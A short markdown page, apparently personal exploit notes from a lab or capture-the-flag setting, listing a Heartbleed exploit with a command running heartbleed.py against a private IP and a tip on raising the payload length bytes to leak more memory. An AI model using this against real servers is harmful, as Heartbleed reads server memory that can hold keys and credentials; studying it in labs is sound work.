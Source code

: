 # Exploits

The following is a list exploits:

### Heartbleed
```
$ python heartbleed.py -x 10.10.10.125

```
You can change the payload size on line: 116
```
0x40, 0x00  # Payload length
  ^
Change this value to hex value to increase/decrease payload length  
```
